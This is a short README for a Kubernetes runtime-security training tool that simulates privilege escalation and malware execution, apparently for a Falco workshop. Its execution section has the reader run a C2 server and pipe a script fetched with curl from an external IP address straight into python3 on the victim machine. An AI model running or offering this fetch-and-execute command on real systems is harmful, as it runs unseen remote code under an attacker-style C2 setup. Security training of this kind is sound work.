

# k8s-runtime-sec

CLI for simulating malicious behaviors in Kubernetes clusters Includes two security incident scenarios related to privilege escalation and malware execution, designed to raise awareness about runtime security.

  

## Requirements

Golang 1.21 or newer and Python 3.7 or later are required.

## Installation

**In Kubernetes node**

    kubectl apply -f k8s/victim-workshop.yaml

**In Containers**

    docker run -it --name falco-workshop -h training diegoall1990/falco-workshop:tagname (Cooming soon)

## Execution

* In C2 Server (Google Compute Engine) execute:

        go run main.go

* In victim machine execute:

        curl -sL http://34.27.180.215:8080/sitio/vuelta.txt | python3

> pipe execution
